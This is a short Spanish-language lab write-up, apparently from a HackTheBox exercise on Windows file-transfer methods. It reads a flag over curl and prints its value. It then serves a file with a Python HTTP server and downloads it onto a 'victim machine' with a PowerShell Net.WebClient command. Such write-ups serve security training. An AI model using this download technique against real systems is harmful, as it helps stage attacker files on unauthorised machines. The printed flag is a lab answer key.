 # Laboratorio: Windows Methods 🏆

1. Leemos la **flag** que está en el directorio raíz **`/`** del servicio web.
* **URL:** `curl -s -X GET http://<IP>/flag.txt`

* **Output:** `b1a4ca918282fcd96004565521944a3b`
---

2. Después de subir el archivo, vemos la **flag**

* Nos descargamos el archivo de `HackTheBox`, luego creamos un servidor con **Python** (`python3 -m http.server 4444`)
* En la **máquina víctima** descargamos el archivo con:
  * `(New-Object Net.WebClient).downloadFile('http://<tun0 IP>:4444/upload_win.zip', './upload_win.zip')`

* Descomprimimos el archivo y ejecutamos el comandos que nos indican en **`HackTheBox`**


<p align="center">
  <img src="./assets/01-File.PNG" width=400>
</p>
